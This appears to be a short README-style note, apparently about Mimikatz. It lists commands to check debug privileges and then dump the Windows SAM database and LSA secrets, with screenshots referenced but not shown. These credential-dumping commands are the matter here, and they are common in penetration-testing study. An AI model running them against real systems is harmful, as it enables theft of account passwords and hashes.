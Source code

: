 <img src="exe.png" width=70% height="auto"><br><br>
### Check the privilage for dumping the credentials
 - privilege::debug (vedi se ho i privilegi) <br>
<img src="priv.png" width=70% height="auto"><br><br>
### Dump the database sam 
 - lsadump::sam <br>
<img src="sam.png" width=70% height="auto"><br><br>
### Dump the secrets
 - lsadump::secrets <br>